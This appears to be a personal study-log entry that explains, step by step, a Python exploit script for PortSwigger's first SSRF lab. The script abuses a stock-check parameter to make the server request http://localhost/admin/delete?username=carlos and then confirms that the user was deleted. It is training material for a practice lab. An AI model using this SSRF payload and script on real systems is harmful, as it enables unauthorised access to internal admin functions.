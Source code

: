 "Sometimes in life, you have to make a selfish decision and do what's best for you." - Saquon Barkley

# Day-14 Summary:

### Things Done Today:

- [X] Wreath Network:

- [X] SSRF Lab #1: [Web-Security Academy](https://portswigger.net/web-security/) -- PortSwigger; [Rana Khalil's Course](https://ranakhalil.teachable.com/);
   - Done with lab#1 today: It was pretty easy and understood the python code [Check out the full code in good format here], which I'm gonna tryna explain you people here below. 

1. Importing all the modules. Also disabling the warnings incase of not having the valid certificate.

```
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```
2. This thing is total optional, but in-order to check where you went wrong if the script doesn't work, this is real helpful thing to add onto the script.

```
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
```
3. [If name-main](https://www.freecodecamp.org/news/if-name-main-python-example/): Check out this article to know more about why do we add this. 
   - My explanation: In simple terms, the python interpreter always checks for this `__name__` function line if it is set to the same. it will execute whatever is mentioned to be executed under it. Also since python is interpreted lang, it checks code line by line. 

```
if __name__ == "__main__":
    main()
```
4. Defining the main function. Here if the arguments by the user is not in the correct format or length, the whole program won't execute, otherwise will execute the program, which here is deleting the user Carlos as mentioned to-do in the lab-01 of SSRF.

```
def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    url = sys.argv[1]
    print("(+) Deleting Carlos user...")
    delete_user(url)
```

5. After defining the main user, it's time now to define the `delete_user(url)`. The goal of the program is to get the admin access and then delete the user named carlos. While looking to the source code, we got the admin path which was `/admin` and while looking at the admin source code we got the delete user path `/delete?username=carlos`. So here the below code make's the resuest to the url mentioned by the user while excuting this script and does the task.

```
def delete_user(url):
    payload = 'http://localhost/admin/delete?username=carlos' #since we have to delete the carlos username
    check_stock_path = '/product/stock' 
    params = {'stockApi': payload} #which is in the stock request
    r = requests.post(url + check_stock_path, proxies=proxies, verify=False, data=params)
```
6. Now until above the if script executed, the user would have be deleted but what if we want to check if our script worked is correct or not, hence below code. Here we make an another request to the `/admin` path and in the response the script will check for keyword `User deleted successfully`, if mentioned then it is a success, if not - unsuccess. 

```
   # Now checking if it our script actually worked or not - which is here deleting the user name carlos 
    payload2 = 'http://localhost/admin'
    params2 = {'stockApi': payload2}
    r = requests.post(url + check_stock_path, proxies=proxies, verify=False, data=params2)
    if "User deleted successfully" in r.text:
        print("(+) Successfully deleted Carlos user!")
    else:
        print("(-) Exploit was Unsuccessful.")
```
<img width="975" alt="Screenshot 2021-10-12 at 2 45 13 PM" src="https://user-images.githubusercontent.com/56188454/136928028-af5b83df-95d0-4138-aa05-8be47a4fed2e.png">


